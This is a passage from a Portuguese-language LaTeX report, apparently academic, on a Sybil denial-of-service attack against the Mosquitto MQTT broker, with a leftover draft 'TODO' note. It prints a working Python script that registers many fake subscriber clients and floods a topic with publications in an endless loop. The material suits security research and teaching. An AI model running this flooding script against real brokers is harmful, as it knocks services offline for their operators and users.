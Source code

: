 Sendo assim, é possível realizar um ataque que explora essa inconsistência entre o número de inscrições permitidas e o número de conexões com que o broker consegue de fato lidar. Para isso, faz-se uma série de inscrições em qualquer tópico de um broker e, em seguida, realiza-se uma série de publicações nesse mesmo tópico. Como o tópico usado no ataque possui muitas inscrições, uma publicação demorará muito até que ela seja completada, ou seja, até que o broker seja capaz de enviar a mensagem para todos os clientes inscritos.

Teoricamente, esse ataque explora tanto a capacidade da rede na qual o broker está conectado quanto sua capacidade de processar requisições e enviar respostas. Contudo, na prática, apenas o primeiro fator acaba por ser relevante (TODO: DADOS?) e, portanto, trata-se em efeito de um ataque que explora a largura de banda do broker.






\subsection{Ataque ao Mosquitto Broker}

Para explorar a vulnerabilidade foi desenvolvido um programa na linguagem Python que utiliza a biblioteca Paho do projeto Mosquitto para criar e instanciar clientes, abrir conexões e realizar inscrições e publicações.

\begin{lstlisting}[language=Python, caption=Ataque Sybil]
    import paho.mqtt.client as mqtt
    import random, string, sys
    
    
    def gen_cli_id(size):
        return ''.join([random.choice(string.ascii_letters +  \                     string.digits) for n in range(size)])
    
    
    if __name__ == '__main__':
        if len(sys.argv) != 5:
            print('usage: python3 bad_sub.py HOST \
                  PORT TOPIC SYBIL_NODES')
            exit(0)
    
        host = sys.argv[1]
        port = int(sys.argv[2])
        topic = sys.argv[3]
        sybil_nodes = int(sys.argv[4])
        clients = []
    
        print('Subscribing sybil nodes...')
        for i in range(sybil_nodes):
            clients.append(mqtt.Client(gen_cli_id(10)))
            clients[i].connect(host, port)
            clients[i].subscribe(topic)
    
        print('Publishing messages, flooding broker...')
        i = 0
        while True:
            clients[i].publish(topic, 'flooding topic')
            i = (i + 1) % sybil_nodes

\end{lstlisting}

